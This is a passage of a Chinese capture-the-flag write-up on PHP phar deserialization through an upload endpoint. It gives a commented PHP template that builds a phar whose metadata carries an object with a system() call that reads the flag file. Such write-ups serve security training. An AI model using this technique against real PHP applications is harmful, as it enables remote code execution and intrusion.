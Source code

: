 ![](./images/image-88.png)

没有直接反序列化的点

题目也让上传东西，那么应该是phar反序列化的知识

发现有upload.php

应该是从这里上传phar文件

一个基本的生成phar文件的模板👇

```
<?php
class Flag{
    public $code = "system('cat /ffflllaaaggg');"; //system('ls /');
}
$a = new Flag();
 

$phar = new phar('b.phar');//对phar对象进行实例化，以便后续操作。

$phar -> startBuffering();//缓冲phar写操作（不用特别注意）
 

$phar -> setStub("<?php __HALT_COMPILER(); ?>");//设置stub，为固定格式
 

$phar -> setMetadata($a);//把我们的对象写进Metadata中
 

$phar -> addFromString("test.txt","helloworld!!");//写压缩文件的内容，这里没利用点，可以随便写
 

$phar -> stopBuffering();//停止缓冲
?>
 
```
